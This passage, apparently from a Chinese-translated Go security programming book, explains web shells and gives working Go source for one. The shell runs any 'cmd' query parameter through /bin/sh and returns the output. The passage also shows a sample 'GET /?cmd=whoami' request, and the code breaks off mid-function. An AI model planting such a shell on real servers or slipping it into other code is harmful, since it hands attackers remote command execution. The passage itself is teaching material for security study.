 请记住，使用纯 HTTP 意味着流量可能以明文记录。可以使用 HTTPS 来加密流量，但 SSL 证书和密钥将存储在服务器上，服务器管理员可以访问它。要使此示例使用 SSL，你只需将`http.ListenAndServe()`更改为`http.ListenAndServeTLS()`。此示例在第九章中提供，*Web 应用程序*。

Web shell 的方便之处在于，你可以使用任何 Web 浏览器和命令行工具，例如`curl`或`wget`。你甚至可以使用`netcat`手动构造 HTTP 请求。缺点是，你没有一个真正交互式的 shell，且每次只能发送一个命令。如果你用分号分隔多个命令，你可以用一条字符串运行多个命令。

你可以手动在`netcat`中或使用类似的自定义 TCP 客户端构造 HTTP 请求，如下所示：

```
GET /?cmd=whoami HTTP/1.0\n\n  
```

这类似于由 Web 浏览器创建的请求。例如，如果你运行`webshell localhost:8080`，你可以访问端口`8080`上的 URL，并使用`http://localhost:8080/?cmd=df`运行命令。

请注意，`/bin/sh`命令适用于 Linux 和 Mac。Windows 使用`cmd.exe`命令提示符。在 Windows 上，你可以启用 Windows 子系统 Linux，并从 Windows 商店安装 Ubuntu，以在不安装虚拟机的情况下在 Linux 环境中运行所有这些 Linux 示例。

在下一个示例中，Web shell 创建了一个简单的 Web 服务器，监听 HTTP 请求。当它收到请求时，它会查找名为`cmd`的`GET`查询。它将执行一个 shell，运行提供的命令，并将结果作为 HTTP 响应返回：

```
package main

import (
   "fmt"
   "log"
   "net/http"
   "os"
   "os/exec"
)

var shell = "/bin/sh"
var shellArg = "-c"

func main() {
   if len(os.Args) != 2 {
      fmt.Printf("Usage: %s <listenAddress>\n", os.Args[0])
      fmt.Printf("Example: %s localhost:8080\n", os.Args[0])
      os.Exit(1)
   }

   http.HandleFunc("/", requestHandler)
   log.Println("Listening for HTTP requests.")
   err := http.ListenAndServe(os.Args[1], nil)
   if err != nil {
      log.Fatal("Error creating server. ", err)
   }
}

func requestHandler(writer http.ResponseWriter, request *http.Request) {
   // Get command to execute from GET query parameters
   cmd := request.URL.Query().Get("cmd")
   if cmd == "" {
      fmt.Fprintln(
         writer,
         "No command provided. Example: /?cmd=whoami")
      return
   }

   log.Printf("Request from %s: %s\n", request.RemoteAddr, cmd)
   fmt.Fprintf(writer, "You requested command: %s\n", cmd)

   // Run the command
   command := exec.Command(shell, shellArg, cmd)
   output, err := command.Output()
   if err != nil {
```